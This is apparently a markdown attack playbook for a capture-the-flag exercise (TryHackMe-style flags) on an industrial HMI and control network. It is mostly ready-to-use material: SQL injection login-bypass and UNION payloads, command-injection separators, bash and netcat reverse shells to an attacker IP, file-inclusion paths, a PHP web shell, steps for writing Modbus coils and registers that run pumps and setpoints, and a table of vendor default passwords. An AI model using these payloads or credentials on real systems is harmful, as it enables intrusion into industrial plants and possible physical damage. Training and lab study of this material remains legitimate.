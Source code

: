 # ICS & Web Exploit Playbook

**Authored by: Hex**

Team,

This is our rapid-deployment playbook. No fluff. These are the high-probability attack vectors we expect to encounter on the target's Human Machine Interface (HMI) and the deeper plant-floor network. An HMI is often just a glorified web application, making it our primary entry point.

Master these techniques. Know them cold. Our success in finding and neutralizing the persistent threat depends on our speed and precision in the initial phases. We're looking for flags in the format `THM{some_text_here}`. Stay sharp.

---

## Web HMI & API Exploits

### SQL Injection (SQLi)

#### Login Bypass
This is the most classic web exploit. The goal is to manipulate the backend SQL query to always return a "true" condition, thus logging us in without valid credentials.

*   **How it Works:** The server likely runs a query like: `SELECT * FROM users WHERE username = '[our_input]' AND password = '[our_password]';`. We inject code to change this logic.
*   **Payloads:**
    *   Try this in the username field: `' OR 1=1 -- `
    *   The password field can be anything.
*   **Explanation:** The injected payload changes the query to `SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = 'password';`. Since `1=1` is always true, the query returns all users, and the `-- ` comments out the rest of the line, ignoring the password check. The application sees a valid user was returned and logs us in.

#### Union-Based
If a page is vulnerable to SQLi and displays data, we can use a `UNION` statement to fuse the results of our malicious query with the legitimate one, exfiltrating data directly to the webpage.

*   **Step 1: Find the number of columns.**
    *   Inject into a vulnerable parameter (e.g., `id=1' ORDER BY 1--`).
    *   Increment the number (`ORDER BY 2--`, `ORDER BY 3--`, etc.) until the page errors. The last number that worked is the column count.
*   **Step 2: Exfiltrate Data.**
    *   Assuming you found 3 columns, your payload would look like this:
    *   `' UNION SELECT 1, group_concat(username), group_concat(password) FROM users -- `
*   **Example Payload:** If the vulnerable URL is `http://10.10.123.123/staff.php?id=2`, we could try:
    *   `http://10.10.123.123/staff.php?id=-1' UNION SELECT 1,username,password FROM users--`

### Command Injection

The application is passing user input into a shell command on the backend. We can append our own commands to be executed by the server's OS.

#### Blind OS Command Injection
Use command separators to chain our command onto the end of the legitimate one.

*   **Separators:**
    *   `;` : Execute command 2 after command 1, regardless of success.
    *   `&` : Execute commands asynchronously.
    *   `&&` : Execute command 2 *only if* command 1 succeeds.
    *   `|` : Pipe the output of command 1 into command 2.
*   **Test Payload:** If a network diagnostic tool pings an IP, try this input: `8.8.8.8; whoami`. If the output shows the server's user (`www-data`, `apache`, etc.), it's vulnerable.

#### Reverse Shell Payloads
Our goal is to get a shell back to our attack machine. First, start a listener on your machine: `nc -lvnp 4242`. Then, use one of these payloads on the vulnerable target.

*   **Bash:**
    ```bash
    bash -i >& /dev/tcp/YOUR_IP/4242 0>&1
    ```
*   **Netcat (if installed):**
    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4242 >/tmp/f
    ```

### File Inclusion (LFI/RFI)

#### Local File Inclusion (LFI)
The application includes a local file based on a parameter in the URL. By manipulating the path, we can read sensitive files outside the web directory.

*   **Technique:** Use path traversal (`../`) to move up directories.
*   **Linux Payloads:**
    *   `?page=../../../../etc/passwd` (List of users)
    *   `?page=../../../../var/log/apache2/access.log` (Web server logs)
*   **Windows Payloads:**
    *   `?page=../../../../boot.ini`
    *   `?page=../../../../Windows/win.ini`

#### Remote File Inclusion (RFI)
More dangerous than LFI. The server will fetch and execute a file from an external URL we control.

*   **How it Works:** Host a malicious PHP file on your attacker machine (e.g., a simple web shell).
*   **Attacker File (`shell.php`):**
    ```php
    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; } ?>
    ```
*   **Payload:**
    *   `?page=http://YOUR_ATTACKER_IP/shell.php`
*   **Usage:**
    *   `http://TARGET_IP/index.php?page=http://YOUR_ATTACKER_IP/shell.php&cmd=whoami`

---

## ICS-Specific Exploits

Once inside the OT network, the attack surface changes. These systems were built for reliability, not security. They often trust any command sent on the local network.

### Modbus Exploitation
Modbus (typically on TCP port 502) is the de-facto protocol for industrial communication. **It has no authentication or encryption.** If you can talk to a Modbus device, you own its process.

*   **Core Concept:** We can read and write values to "registers" and "coils."
    *   **Coils:** Digital On/Off values (think relays, lights, pump on/off).
    *   **Holding Registers:** 16-bit integer values (think temperature setpoints, pressure readings, valve positions).
*   **Example Manipulation:**
    *   Reading Holding Register `40001` might give you the current tank level.
    *   Writing `1` to Coil `5` might turn on a critical pump.
    *   Writing `0` to Coil `5` might turn it off.
    *   Writing a new value to Holding Register `20` could change a motor's speed setpoint.
*   **Key Modbus Function Codes:**
    *   `1`: Read Coils
    *   `3`: Read Holding Registers
    *   `5`: **Write Single Coil** (Highly impactful)
    *   `6`: **Write Single Register** (Highly impactful)

### Default Credential Abuse
Never underestimate the power of default passwords, especially on Engineering Workstations (EWS) or HMIs that have been hastily deployed.

| Vendor | Product/Software | Username | Password | Notes |
| :--- | :--- | :--- | :--- |:--- |
| Rockwell | FactoryTalk View SE | Administrator | (blank) | |
| Rockwell | RSLinx | `admin` | `password` | Check older versions. |
| Schneider | Modicon (various) | `administrator` | `password` | |
| Schneider | EcoStruxure | `administrator` | `administrator`| Also check user/user. |
| Siemens | SIMATIC S7-1200 | (none) | (none) | Access level often set to "Full access" by default. |
| Siemens | WinCC | `Administrator` | `100` | A very old but sometimes seen default. |
| Tridium | Niagara AX | `admin` | `niagara` | |